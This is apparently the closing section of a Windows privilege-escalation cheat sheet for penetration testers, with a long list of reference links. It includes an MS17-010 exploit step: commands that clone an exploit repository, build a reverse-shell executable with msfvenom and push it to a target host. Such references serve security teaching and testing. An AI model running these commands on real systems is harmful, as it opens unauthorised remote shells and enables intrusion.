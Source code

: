 ```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```


## References

* [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
* [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
* [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
* [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
* [Windows Privilege Escalation Guide - absolomb's security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs](https://github.com/dostoevskylabs/dostoevsky-pentest-notes/blob/master/chapter-4.md)
* [Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell](https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/)
* [Pentestlab.blog - WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
* [Pentestlab.blog - WPE-02 - Windows Kernel](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [Pentestlab.blog - WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)
* [Pentestlab.blog - WPE-04 - Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/)
* [Pentestlab.blog - WPE-05 - DLL Hijacking](https://pentestlab.blog/2017/03/27/dll-hijacking/)
* [Pentestlab.blog - WPE-06 - Hot Potato](https://pentestlab.blog/2017/04/13/hot-potato/)
* [Pentestlab.blog - WPE-07 - Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
* [Pentestlab.blog - WPE-08 - Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)
* [Pentestlab.blog - WPE-09 - Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/) 
* [Pentestlab.blog - WPE-10 - Token Manipulation](https://pentestlab.blog/2017/04/03/token-manipulation/)
* [Pentestlab.blog - WPE-11 - Secondary Logon Handle](https://pentestlab.blog/2017/04/07/secondary-logon-handle/)
* [Pentestlab.blog - WPE-12 - Insecure Registry Permissions](https://pentestlab.blog/2017/03/31/insecure-registry-permissions/)
* [Pentestlab.blog - WPE-13 - Intel SYSRET](https://pentestlab.blog/2017/06/14/intel-sysret/)
* [Alternative methods of becoming SYSTEM - 20th November 2017 - Adam Chester @_xpn_](https://blog.xpnsec.com/becoming-system/)
* [Living Off The Land Binaries and Scripts (and now also Libraries)](https://github.com/LOLBAS-Project/LOLBAS)